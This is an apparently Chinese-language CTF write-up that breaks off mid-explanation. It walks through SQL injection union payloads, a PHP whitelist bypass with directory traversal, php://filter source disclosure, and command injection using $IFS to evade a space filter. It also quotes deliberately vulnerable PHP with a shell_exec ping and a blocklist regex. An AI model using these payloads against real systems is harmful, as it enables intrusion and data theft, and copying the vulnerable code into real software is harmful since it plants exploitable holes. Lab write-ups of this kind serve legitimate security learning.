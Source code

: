 1.sql注入
-
```
1' order by 2; 两列
```
```
1' union select 1,2;  注入点在第二列
```
![image](https://github.com/xhsy0314/Task/assets/84487619/eb055036-2882-4638-b338-405d6c2e1b38)

```
1' union select 1,group_concat(sql) from sqlite_master;
```
![image](https://github.com/xhsy0314/Task/assets/84487619/50ffb106-0610-46c8-a8e1-0b9ea4db5493)

```
-1' union select 1,group_concat(flaaag) from flaaaaa_aag;
```
![image](https://github.com/xhsy0314/Task/assets/84487619/67694d40-feb4-411a-8b83-9fc80e74ea8a)


2.php
-

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }
```

查看源码，有个hint.php访问一下<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/b4e0d62c-591b-4e42-ac93-24fd0e8ad0ac)
<br>
最底部的if语句为执行条件，有三个条件，第一个判断文件不能为空（检查是否传了file参数），第二这个传的参数是字符串，第三要过白名单检测，过了之后包含 隐藏了flag的文件。我们再看上面的if语句，白名单是hint.php，又有mb_strpos和mb_substr截取内容，碰到？就截止，所以我们只需要输入 source.php?file=source.php?即可绕过白名单检测，然后在输入../逐级跳转目录读取flag即可，可以一个一个试,多试几次则找到了flag<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/e62557ea-d228-4f27-a162-0d282f0cb135)
<br>
知识点:

* empty() 函数用于检查一个变量是否为空。
* empty() 判断一个变量是否被认为是空的。当一个变量并不存在，或者它 的值等同于 FALSE，那么它会被认为不存在。如果变量不存在的话，empty()并不会产生警告。
* empty() 5.5 版本之后支持表达式了，而不仅仅是变量。

* mb_substr() 函数返回字符串的一部分，之前我们学过 substr() 函数，它只针对英文字符，如果要分割的中文文字则需要使用 mb_substr()。
注释：如果 start 参数是负数且 length 小于或等于 start，则 length 为 0。

* mb_strpos()：返回要查找的字符串在别一个字符串中首次出现的位置(即数字)

* .表示当前目录
* . .表示当前目录的上一级目录。
* . ./表示当前目录下的某个文件或文件夹，视后面跟着的名字而定
* ./表示当前目录上一级目录的文件或文件夹，视后面跟着的名字而定。
* 例如：
        文件夹 a
        下面有 文件夹b c 和文件 d。
        文件夹b下面有e.php 和文件f。
        则e中的 . 表示 文件夹b
        ./f 表示b下面的文件f。
        . .表示a文件夹。
        . ./d 表示a文件夹下的d文件。

3.php伪协议
-


php支持的伪协议：
```
1 file:// — 访问本地文件系统
2 http:// — 访问 HTTP(s) 网址
3 ftp:// — 访问 FTP(s) URLs
4 php:// — 访问各个输入/输出流（I/O streams）
5 zlib:// — 压缩流
6 data:// — 数据（RFC 2397）
7 glob:// — 查找匹配的文件路径模式
8 phar:// — PHP 归档
9 ssh2:// — Secure Shell 2
10 rar:// — RAR
11 ogg:// — 音频流
12 expect:// — 处理交互式的流
```

1.php://filter:可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取。<br>

```
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php
```
利用filter协议读文件±，将index.php通过base64编码后进行输出。这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做php文件执行了，而通过编码后则可以读取文件源码。

而使用的convert.base64-encode，就是一种过滤器。

<br>

**例题**
<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/d63f1fcd-2401-48d9-9baf-632075c45976)
<br>

看到这样的格式和题目 include 也很容易想起文件包含和PHP伪协议。
所以，直接用伪协议读取flag.php的源码构造 payload
```
 ?file=php://filter/read=convert.base64-encode/resource=flag.php
```

4.过滤
-

已经通过127.0.0.1;ls 发现了两个文件<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/d621b093-2036-4318-9900-413f12d0d23b)

<br>

```
/?ip=1;cat index.php
```

发现过滤了空格。

```
/?ip=1;cat$IFS$1index.php
```
**知识点**：IFS在系统命令里是空格的意思，它的前后面加$是为了固定这个语句，不然和其他字符串行会出错，后面的$1是空字符，也可以写成${IFS}或${IFS}$9之类的，但{IFS}这个不行，因为{}被过滤了。
输入后获得index.php内容：

```
/?ip=
PING 1 (0.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
?>
```
其中有四个if判断，
        第一个if中\x为十六进制字符开头
